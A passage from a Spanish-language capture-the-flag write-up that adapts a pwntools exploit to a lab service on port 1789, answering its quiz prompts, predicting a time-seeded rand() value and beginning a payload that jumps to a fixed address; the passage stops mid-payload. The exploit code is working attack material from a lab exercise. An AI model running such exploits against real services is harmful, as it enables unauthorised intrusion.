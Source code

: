 ```python
```

ejecuto el exploit y consigo la `shell`

![image](https://github.com/user-attachments/assets/60b61e37-a0da-4d9f-a28f-930db6512e78)

si recordamos en un principio el puerto 1789, cuando me conecte a el con netcat me hacia las mismas preguntas que hace el binario `subversion` por lo que lo mas
seguro es que en ese puerto este corriendo dicho binario, asi que para lograr el acceso modificare nuevamente el exploit para apuntar de forma remota al puerto `1789`
quedando el exploit asi :

```python
from pwn import *
import ctypes
import time

def randonfun():

    libc = ctypes.CDLL('libc.so.6')
    rand = libc.rand
    srand = libc.srand
    current_time = int(time.time()) ^ 69
    srand(current_time)
    random_number = rand() % 10000000
    return random_number



def explotation():

    host = "172.17.0.2"
    port = 1789
    l = remote(host, port)

    # Interactuamos con el programa corriendo en el puerto 1789 del host 172.17.0.2

    l.recvuntil(b"Respuesta:")
    l.sendline(b"1789")  # enviamos la primera respuesta


    l.recvuntil(b"Respuesta:")
    l.sendline(b"satyagraha")   # enviamos la segunda respuesta

    l.recvuntil(b"Respuesta:")
    l.sendline(b"caidadelmuro") # se envia la tercera respuesta

    l.recvuntil(b"Respuesta:")
    l.sendline(b"cartamagna")   # 4ta respuesta

    l.recvuntil(b"Respuesta:")
    l.sendline(b"movimientoantiapartheid") # 5ta respuesta


    val = randonfun() # almacenamos en una variable lo que devuelve la funcion que genera el numero aleatorio
    l.recvuntil(b"Respuesta:")
    l.sendline(str(val).encode()) # 6ta respuesta (numero aleatorio) aqui convertimos a string el valor almacenado en la variable val y luego a binario para poder enviarlo correctamente al proceso


    # aqui comienzo a preparar el payload para saltar a la direccion 0x00000000004017b4

    memory = p64(0x00000000004017b4)
```